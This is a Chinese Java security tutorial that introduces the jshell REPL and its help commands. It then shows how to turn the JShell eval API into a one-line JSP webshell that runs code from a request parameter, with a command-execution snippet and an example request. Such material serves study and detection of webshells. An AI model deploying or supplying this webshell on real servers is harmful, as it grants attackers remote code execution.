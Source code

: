# JShell

从`Java 9`开始提供了一个叫`jshell`的功能，`jshell`是一个`REPL(Read-Eval-Print Loop)`命令行工具，提供了一个交互式命令行界面，在`jshell`中我们不再需要编写类也可以执行Java代码片段，开发者可以像`python`和`php`一样在命令行下愉快的写测试代码了。

命令行执行`jshell`即可进入`jshell`模式：

<img src="https://oss.javasec.org/images/image-20191219163053592.png" alt="image-20191219163053592" style="zoom:50%;" />

输入:`/help`可以查看具体的命令:

```bash
|  键入 Java 语言表达式, 语句或声明。
|  或者键入以下命令之一:
|  /list [<名称或 id>|-all|-start]
|  	列出您键入的源
|  /edit <名称或 id>
|  	编辑按名称或 id 引用的源条目
|  /drop <名称或 id>
|  	删除按名称或 id 引用的源条目
|  /save [-all|-history|-start] <文件>
|  	将片段源保存到文件。
|  /open <file>
|  	打开文件作为源输入
|  /vars [<名称或 id>|-all|-start]
|  	列出已声明变量及其值
|  /methods [<名称或 id>|-all|-start]
|  	列出已声明方法及其签名
|  /types [<名称或 id>|-all|-start]
|  	列出已声明的类型
|  /imports 
|  	列出导入的项
|  /exit 
|  	退出 jshell
|  /env [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>] ...
|  	查看或更改评估上下文
|  /reset [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>]...
|  	重启 jshell
|  /reload [-restore] [-quiet] [-class-path <路径>] [-module-path <路径>]...
|  	重置和重放相关历史记录 -- 当前历史记录或上一个历史记录 (-restore)
|  /history 
|  	您键入的内容的历史记录
|  /help [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /set editor|start|feedback|mode|prompt|truncation|format ...
|  	设置 jshell 配置信息
|  /? [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /! 
|  	重新运行上一个片段
|  /<id> 
|  	按 id 重新运行片段
|  /-<n> 
|  	重新运行前面的第 n 个片段
|  
|  有关详细信息, 请键入 '/help', 后跟
|  命令或主题的名称。
|  例如 '/help /list' 或 '/help intro'。主题:
|  
|  intro
|  	jshell 工具的简介
|  shortcuts
|  	片段和命令输入提示, 信息访问以及
|  	自动代码生成的按键说明
|  context
|  	/env /reload 和 /reset 的评估上下文选项
```

## 使用JShell执行代码片段

`jshell`不仅是一个命令行工具，在我们的应用程序中同样也可以调用`jshell`内部的实现API，也就是说我们可以利用`jshell`来执行Java代码片段而不再需要将Java代码编译成class文件后执行了。

`jshell`调用了`jdk.jshell.JShell`类的`eval`方法来执行我们的代码片段，那么我们只要想办法调用这个`eval`方法也就可以实现真正意义上的一句话木马了。

**`jshell.jsp`一句话木马示例:**

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src"))%>
```

程序执行后会输出一些不必要的信息，如果有强迫症可以修改为：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

然后我们需要编写一个执行本地命令的代码片段：

```java
new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes())
```

`Java 9`的`java.io.InputStream`类正好提供了一个`readAllBytes`方法，我们从此以后再也不需要按字节读取了。

浏览器请求：http://localhost:8080/jshell.jsp?src=new%20String(Runtime.getRuntime().exec(%34pwd%34).getInputStream().readAllBytes())

程序执行结果：

<img src="https://oss.javasec.org/images/image-20191219170956644.png" alt="image-20191219163053592" style="zoom:50%;" />
